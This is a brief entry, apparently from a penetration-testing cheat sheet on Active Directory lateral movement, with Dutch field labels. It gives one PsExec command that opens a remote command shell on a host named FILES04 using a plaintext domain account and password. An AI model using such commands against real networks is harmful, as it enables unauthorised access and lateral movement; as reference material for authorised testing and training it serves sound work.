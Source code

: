# 24. AD Lateral Movement — Entry 14

## Categorie

PsExec

## Commando

```
.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! Cmd
```

## Omschrijving

```
Get a shell on antoher machine via PsExec
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

